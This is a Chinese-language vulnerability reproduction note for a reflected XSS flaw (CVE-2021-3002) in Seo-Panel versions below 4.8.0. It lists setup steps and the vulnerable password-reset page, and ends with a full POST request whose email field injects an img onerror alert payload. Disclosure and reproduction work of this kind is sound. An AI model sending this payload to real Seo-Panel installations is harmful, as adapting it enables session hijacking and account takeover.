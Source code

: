 # Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

# Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](/images/202202101924919.png)

## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)

![](/images/202202101924473.png)



成功弹窗 ,造成 反射型XSS 漏洞



## 漏洞POC



请求包如下



```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```

